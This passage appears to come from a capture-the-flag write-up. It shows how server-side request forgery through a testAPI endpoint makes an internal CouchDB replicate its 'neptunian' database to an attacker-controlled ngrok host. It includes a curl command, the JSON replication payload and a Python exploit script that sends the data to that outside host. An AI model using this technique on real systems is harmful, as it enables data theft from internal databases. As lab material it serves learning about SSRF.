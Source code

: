 Let's use temporary URL https://2d0a4710580a.ngrok.io as destination database.

We need to first create the database in the destination, to receive the replicated documents.

```bash
$ curl -X PUT https://tempadm:tempadm12@2d0a4710580a.ngrok.io/neptunian_flag
{"ok":true}
```

Let's configure our exploit to use the remote db.

```JSON
{
    "source": "neptunian",
    "target": "https://tempadm:tempadm12@2d0a4710580a.ngrok.io/neptunian_flag"
}
```

Let's prepare for the final battle.

```python
import requests
import json

headers = {
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9'
}

# POST Replication (Local)
params = (
    ('url', 'http://neptunian:neptunian@couchdb:5984@couchdb:5984/_replicate'),
    ('method', 'POST'),
    ('data', 
        json.dumps({
            "source": "neptunian",
            "target": "https://tempadm:tempadm12@2d0a4710580a.ngrok.io/neptunian_flag"
        })
    )
)

response = requests.get('http://localhost:8080/testAPI', headers=headers, params=params) 

print(response.text)
```

### Release The Kraken!!

```bash
$ python exploit.py 

success
```

And checking our local destination DB for the good news.
